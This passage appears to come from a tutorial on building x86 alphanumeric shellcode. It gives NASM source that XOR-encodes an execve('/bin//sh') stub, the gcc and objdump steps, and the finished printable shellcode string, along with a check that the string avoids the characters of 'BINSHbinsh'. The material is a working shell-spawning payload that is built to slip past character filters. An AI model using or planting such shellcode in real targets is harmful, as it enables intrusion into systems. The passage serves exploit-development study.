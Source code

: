 ```nasm
        pop eax
        xor eax, 0x30304343
        xor eax, 0x58436c6c
        push eax

        /* push 0x6852d231 */
        push esi
        pop eax
        xor eax, 0x30314141
        xor eax, 0x58636c70
        push eax
        push esp
        pop ecx
        inc ecx
        xor [ecx], dh

        push esp

ret:
        .byte 0x78
```

It is time to assemble the assembly code into the real executable! After that
we can check whether the `.text` section consists of all printable character
or not.

```bash
$ gcc -m32 -nostdlib alnum.s -o alnum
$ objdump -s -j .text alnum

alnum:     file format elf32-i386

Contents of section .text:
8048098 50596a30 58343050 50505050 51614a50  PYj0X40PPPPPQaJP
80480a8 58505850 58353030 30303530 30303035  XPXPX50000500005
80480b8 30303030 35303030 30525834 446a3059  000050000RX4Dj0Y
80480c8 30444f44 56583530 32433035 7239714f  0DODVX502C05r9qO
80480d8 50545941 41303141 30315658 35303044  PTYAA01A01VX500D
80480e8 31356346 5a435054 59413031 41303141  15cFZCPTYA01A01A
80480f8 30315658 35343044 31355a46 58635054  01VX540D15ZFXcPT
8048108 59413031 41303156 58353043 30303558  YA01A01VX50C005X
8048118 6c525950 56583543 43303035 6c6c4358  lRYPVX5CC005llCX
8048128 50565835 41413130 35706c63 58505459  PVX5AA105plcXPTY
8048138 41303154 78                          A01Tx
```

Using the following command to check whether the alpanumeric shellcode contains
"BINSHbinsh" or not.

```bash
$ echo \
'PYj0X40PPPPPQaJP50000RX4Dj0Y0DO0VX502C05r9qOPTYAA01A01VX500D15cFZCPTYA01A01A01VX540D15ZFXcPTYA01A01VX50C005XlRYPVX5CC005llCXPVX5AA105plcXPTYA01Tx' | grep [BINSHbinsh]
```


[origin]: 0x80cd0b42
[origin]: 0x8de18953
[origin]: 0x52e3896e
[origin]: 0x69622f68
[origin]: 0x68732f2f
[origin]: 0x6852d231
[1]: http://inaz2.hatenablog.com/entry/2014/07/11/004655
[2]: http://inaz2.hatenablog.com/entry/2014/07/13/025626
[3]: http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes
[4]: http://www.c-jump.com/CIS77/CPU/x86/lecture.html#X77_0100_sib_byte_layout